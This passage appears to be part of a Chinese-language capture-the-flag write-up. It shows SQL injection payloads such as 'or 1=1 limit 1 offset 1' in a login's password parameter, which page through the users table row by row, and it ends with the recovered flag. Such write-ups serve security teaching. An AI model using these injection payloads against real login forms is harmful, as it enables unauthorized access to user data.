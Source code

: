 既然如此，那就暴力一行一行查，构造如下（及等价语句）（第一行）
```url
?username=admin\&password=or%201=1%20limit%201%20offset%201%20--+--+
```
```sql
SELECT * FROM users LIMIT 1 OFFSET 1
```

![sqli3](pic/sqli3.png)

（第二行）
```url
?username=admin\&password=or%201=1%20limit%201%20offset%202%20--+--+
```
```sql
SELECT * FROM users LIMIT 1 OFFSET 2
```

![sqli4](pic/sqli4.png)

好！得flag：flag{mysqli_hooray}
